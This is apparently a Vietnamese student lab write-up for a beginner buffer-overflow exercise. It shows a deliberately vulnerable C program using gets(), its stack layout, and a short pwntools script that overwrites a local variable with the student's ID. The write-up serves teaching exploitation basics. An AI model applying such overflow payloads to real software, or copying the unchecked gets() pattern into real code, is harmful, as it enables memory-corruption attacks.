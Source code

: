 # **Bonus**

## Task
File: simple_buffer, simpler_buffer.c

Chạy thử file:

```bash
└─$ ./simple-buffer
Please provide your Student ID.
Usage: ./simple-buffer <your id>

┌──(ixz㉿DESKTOP-6LQVP4S)-[/mnt/…/NT209.L21.ANTN.Group_1/Lab 5/Bonus/Lab6]
└─$ ./simple-buffer hello
hello
Almost there. My var is 305419896 now. Try harder.
```

Chạy lệnh file để kiểm tra file:

```bash
└─$ file simple-buffer
simple-buffer: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=86ff3edc7220a182a329afb121ab1691fb52205b, not stripped
```
-> File linux 32bit

## Solution

Load file bằng IDA pro 32 bit

```c
# include <stdio.h>
# include<stdlib.h>

int student_id;

void smash_my_buffer()
{
    int var = 0x12345678;
    int another_var = 0x0;

    char buf[20];
    gets(buf);

    if ((var != 0x12345678) || (another_var != 0))
	printf("You changed my local variables.\n");
    
    if (var == student_id)
	   printf("Nice works. You've changed my var to %d. That's what I need :)\n",var);
    else
 	   printf("Almost there. My var is %d now. Try harder.\n", var);
}

int main(int argc, char *argv[])
{
    if (argc < 2)
    {
	printf("Please provide your Student ID.\nUsage: %s <your id>\n", argv[0]);
	exit(0);
    }
    
    student_id = atoi(argv[1]);
    smash_my_buffer();
}
```


đây là stack của hàm `smash_my_buffer()`

![image](https://user-images.githubusercontent.com/31529599/121875511-bd204680-cd32-11eb-95ec-95b13b22ad23.png)

Với `s` là địa chỉ của biến `buf`, `var_C` là địa chỉ của biến `var` tương ứng trong source c

vì bài này đơn giản yêu cầu chúng ta overwrite địa chỉ của biến `var` với giá trị là mã số sinh viên (`19521978`)

Theo như `stack` ở trên thì địa chỉ của biến `buf` sẽ cách địa chỉ của biến `var` là (`0x24-0xc`)

## Script python

```python
from pwn import *

binary = context.binary = ELF('./simple-buffer')

# process file thực thi với mã số sinh viên tương ứng
p = process(['./simple-buffer','19521978'])

# khoảng cách giữa biến buf và biến var theo như stack
payload = b'A'*(0x24-0xc)

# overwrite biến var với giá trị là mã số sinh viên
payload += p32(19521978)

p.sendline(payload)

p.interactive()
```

## Chạy script
![image](https://user-images.githubusercontent.com/31529599/121876334-96aedb00-cd33-11eb-9594-0793719f6bcb.png)

Xong !




